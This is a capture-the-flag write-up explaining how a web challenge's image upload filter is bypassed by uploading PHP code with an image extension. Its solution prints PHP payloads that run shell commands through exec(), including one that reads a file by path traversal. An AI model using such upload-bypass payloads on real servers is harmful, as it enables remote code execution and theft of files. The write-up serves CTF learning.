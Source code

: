# Secure File Manager
## Web

> My friend insists that his file manager is 100% secure now.
> Except its no longer a file manager, just an image manager.
> Prove him wrong again!
>
> http://128.199.77.173:13002

### Files
- N/A

### Analysis
The website has an image upload but checks for the .php extension

### Solution
1. Similar to [Superior File Manager](https://github.com/mynamegabe/May-CTF-Writeups/edit/main/Web/Superior-File-Manager), Upload a PHP script with a .png or .jpg extension
   ```php
   <?php echo exec("ls -la"); ?>
   ```
2. View the file after uploading
   The PHP file will be executed.
3. Accessing the flag
   ```php
   <?php echo exec("locate flag.txt"); ?>
   ```
4. Getting the flag
   ```php
   <?php echo exec("cat ../../../../../flag.txt"); ?>
   ```
